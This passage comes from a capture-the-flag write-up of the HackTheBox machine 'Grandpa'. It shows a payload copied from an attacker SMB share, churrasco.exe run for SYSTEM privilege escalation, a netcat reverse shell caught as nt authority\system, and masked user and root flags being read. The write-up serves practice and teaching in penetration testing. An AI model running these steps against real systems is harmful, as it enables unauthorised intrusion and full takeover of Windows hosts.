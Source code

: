 Transfer the payload and run churrasco again:

```bash
C:\temp>copy \\10.10.17.28\kali\sh.exe
copy \\10.10.17.28\kali\sh.exe
nt authority\system

C:\temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of C:\temp

08/29/2021  09:57 PM    <DIR>          .
08/29/2021  09:57 PM    <DIR>          ..
08/17/2021  10:09 AM            31,232 churrasco.exe
08/29/2021  09:48 PM            73,802 sh.exe
               2 File(s)        105,034 bytes
               2 Dir(s)  18,090,938,368 bytes free

C:\temp>churrasco.exe -d "sh.exe"
churrasco.exe -d "sh.exe"
        1 file(s) copied.
```

The output still seems buggy, but nevertheless I got the shell:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/grandpa]
└─$ nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.17.28] from (UNKNOWN) [10.10.10.14] 1037
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\temp>whoami
whoami
nt authority\system
```

Time to get both flags.

## Flags

---

I never got privileges as user Harry, so with this high privileged shell I can get both flags:

```bash
C:\Documents and Settings\Harry\Desktop>type user.txt
type user.txt
bd**************************d869
C:\Documents and Settings\Harry\Desktop>type ..\..\Administrator\Desktop\root.txt
type ..\..\Administrator\Desktop\root.txt
93**************************bb7b
```

# Conclusions

---

This box was very easy because it was basically the same as granny.